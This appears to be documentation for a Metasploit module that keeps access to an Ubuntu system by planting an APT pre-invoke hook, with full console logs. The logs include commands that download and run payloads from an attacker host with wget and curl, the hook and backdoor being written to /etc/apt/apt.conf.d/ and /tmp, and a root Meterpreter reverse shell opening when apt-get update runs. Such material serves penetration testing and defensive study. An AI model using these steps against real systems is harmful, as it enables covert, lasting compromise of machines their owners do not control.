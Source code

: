## Vulnerable Application

This module will run a payload when the apt package manager is used.
This module creates a pre-invoke hook for APT in `apt.conf.d`.
The hook name syntax is numeric followed by text.

Verified on Ubuntu 22.04

## Verification Steps

1. Exploit a box that uses APT
2. Obtain root persmissions, or enough permissions to edit the `apt.conf.d` folder
3. `use exploit/linux/persistence/apt_package_manager`
4. `set SESSION <id>`
5. `set PAYLOAD cmd/unix/reverse_python` configure the payload as needed
6. `exploit`

When the system runs `apt-get update` the payload will launch.

## Options

### PAYLOAD_NAME

Name of backdoor executable. Defaults to a random name

### HOOKNAME

Name of pre-invoke hook to be installed in `/etc/apt/apt.conf.d/`. Pre-invoke hook name syntax is numeric followed by text.

## Scenarios

### Tested on Ubuntu 22.04

Initial access vector via web delivery

```
$ ./msfconsole -q
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO Z73D1DUW --no-check-certificate http://111.111.1.111:8181/l; chmod +x Z73D1DUW; ./Z73D1DUW& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] 222.222.2.22     web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.22
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.22:51076) at 2025-02-04 17:40:52 -0500
sessions -l

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         meterpreter x64/linux  root @ 222.222.2.22  111.111.1.111:4545 -> 222.222.2.22:51076 (222.222.2.22)
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/apt_package_manager 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/apt_package_manager) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/apt_package_manager) > check
[*] The target appears to be vulnerable. /etc/apt/apt.conf.d/ and /tmp/ are writable, also found apt-get.
[msf](Jobs:1 Agents:1) exploit(linux/persistence/apt_package_manager) > exploit
[*] Command to run on remote host: curl -so ./xTOLdQoOTv http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./xTOLdQoOTv;./xTOLdQoOTv&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/apt_package_manager) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. /etc/apt/apt.conf.d/ and /tmp/ are writable, also found apt-get.
[*] Attempting to write hook:
[*] Wrote /etc/apt/apt.conf.d/76skoGqswo
[*] Backdoor uploaded /tmp/erNOJV96u
[+] Backdoor will run on next APT update
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc

[msf](Jobs:2 Agents:1) exploit(linux/persistence/apt_package_manager) > jobs

Jobs
====

  Id  Name                                            Payload                                     Payload opts
  --  ----                                            -------                                     ------------
  0   Exploit: multi/script/web_delivery              linux/x64/meterpreter/reverse_tcp           tcp://111.111.1.111:4545
  1   Exploit: linux/persistence/apt_package_manager  cmd/linux/http/x64/meterpreter/reverse_tcp  tcp://111.111.1.111:4444

[msf](Jobs:2 Agents:1) exploit(linux/persistence/apt_package_manager) > 
```

Run `sudo apt-get update` on the target.

```
[*] Client 222.222.2.22 requested /Hg3DGEu9GqlWD06kh4AzFg
[*] Sending payload to 222.222.2.22 (curl/7.81.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.22
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.22:49804) at 2025-02-04 17:43:06 -0500

[msf](Jobs:2 Agents:2) exploit(linux/persistence/apt_package_manager) > sessions -i 2
[*] Starting interaction with 2...

(Meterpreter 2)(/tmp) > sysinfo
Computer     : 222.222.2.22
OS           : Ubuntu 22.04 (Linux 5.15.0-48-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 2)(/tmp) > 
```

#### Cleanup

```
(Meterpreter 2)(/tmp) > resource /root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc
[*] Processing /root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc for ERB directives.
resource (/root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc)> rm /etc/apt/apt.conf.d/76skoGqswo
resource (/root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc)> rm /tmp/erNOJV96u
```